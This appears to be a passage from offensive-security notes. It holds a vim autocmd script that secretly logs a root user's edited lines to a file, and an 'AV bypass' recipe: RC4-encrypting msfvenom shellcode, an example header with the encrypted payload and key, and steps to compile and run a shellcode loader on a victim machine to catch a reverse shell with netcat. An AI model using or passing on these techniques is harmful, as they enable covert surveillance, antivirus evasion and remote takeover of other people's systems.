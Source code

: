 ### Capture keystrokes if only root user

```vim
" Function to log keystrokes to a file
function! LogKeystrokes()
    " Check if root user
    if $USER == 'root'
        " Get the last written line from the buffer
        let lines = getline(line("'[") - 1, line("']"))
        " Specify the log file
        let logfile = '/path/to/your/logfile.log'
        " Append the lines to the log file
        call writefile(lines, logfile, 'a')
    endif
endfunction

" Set up an autocmd to trigger the function on BufWritePost
autocmd BufWritePost * call LogKeystrokes()

```


## Bypassing AV

C programs for bypassing AV detection:
- Encrypt-ShellcodeRC4.c 
	- create a msfvenom c formated shellcode represented in hex and save to a file
	- compile `gcc -o encryptrc4 Encrypt-ShellcodeRC4.c `
	- run `encryptrc4 shellcode.txt`
	- Encrypt-ShellcodeRC4.c generate a random key to encrypt the shellcode
	- the resulting output is a file called `encrypted_payload.h` that contains the encrypted shellcode and the encryption/decryption key

Example encrypted_payload.h
```c
#ifndef BUFFER_H
#define BUFFER_H

unsigned char key[] = "B@$7P.omqDXyKIfw";
unsigned char buf[] = 
"\x8b\x7d\x92\xee\x3a\xb6\x02\xc3\x24\x6b\x80\x05\x8d\x4c\xe1\x18"
"\x2a\x9f\xde\x8c\x0e\x91\x77\x9f\x92\x51\xff\x7f\x76\xf3\x52\xb7"
"\xdd\x48\x25\x64\x46\x37\x14\x15\x04\x4d\xf2\xe5\x85\xc3\xcf\x18"
"\xe8\xe6\xbc\xed\x42\xe5\x06\x0d\x15\xef\xea\x6b\xff\x74\xc8\xb1"
"\x25\x40\xe8\x90\xc8\x42\x3b\x3b\x66\x50";

#define BUF_SIZE sizeof(buf)
#endif

```

- ShellCodeRC4Runner.c
	- upload both ShellCodeRC4Runner.c and encrypted_payload.h to the victim machine
	- compile `gcc  -fno-stack-protector -z execstack -g -o runner ShellCodeRC4Runner.c`
	- configure netcat or other software to catch the reverse shell
	- `./runner` on the victim machine
